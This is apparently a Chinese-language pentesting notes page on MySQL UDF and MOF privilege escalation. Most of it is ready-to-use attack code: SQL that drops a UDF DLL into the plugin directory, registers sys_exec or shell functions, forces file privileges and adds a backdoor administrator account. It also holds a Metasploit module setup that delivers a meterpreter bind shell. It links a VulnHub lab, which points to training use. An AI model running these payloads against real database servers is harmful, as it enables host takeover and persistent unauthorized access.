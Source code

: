 **UDF 提权**
- 相关靶场
    - [Kioptrix4](../../实验/VulnHub/Kioptrix4通关笔记.md)

- 文章
    - [Command execution with a MySQL UDF](http://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

- POC | Payload | exp
    - [mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)

    ```sql
    select @@basedir;  # 查看 mysql 安装目录
    select 'It is dll' into dumpfile 'C:\..lib::';  # 利用 NTFS ADS 创建 lib 目录
    select 'It is dll' into dumpfile 'C:\..lib\plugin::';  # 利用NTFS ADS 创建 plugin 目录
    select 0xUDFcode into dumpfile 'C:\phpstudy\MySQL\lib\plugin\mstlab.dll';  # 导出 udfcode,注意修改 udfcode
    create function cmdshell returns string soname 'mstlab.dll';   #用 udf 创建 cmd 函数,shell,sys_exec,sys_eval
    select shell('cmd','net user');     # 执行 cmd 命令
    show variables like '%plugin%';     # 查看 plugin 路径
    ```

    小技巧:

    1. HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MySQL 注册表中 ImagePath 的值为 mysql 安装目录
    2. my.ini 中 datadir 的值是数据存放目录
    3. UPDATE user set File_priv ='Y';  flush privileges; 强制加 file权限

    ```sql
    USE mysql;
    CREATE TABLE npn(line blob);
    INSERT INTO npn values(load_file('C://xampplite//htdocs//mail//lib_mysqludf_sys.dll'));
    SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
    CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
    SELECT sys_exec("net user npn npn12345678 /add");
    SELECT sys_exec("net localgroup Administrators npn /add");
    ```

- MSF 模块
    ```bash
    use exploit/multi/mysql/mysql_udf_payload
    set RHOSTS <ip>
    set USERNAME <user>
    set PASSWORD <pass>
    set target 0
    set payload windows/meterpreter/bind_tcp
    set RHOST <ip>
    set LPORT 4444
    exploit
    ```

**MOF 提权**

MOF提权的条件要求十分严苛:
1. windows 03 及以下版本
2. mysql 启动身份具有权限去读写 c:/windows/system32/wbem/mof 目录
3. secure-file-priv 参数不为 null
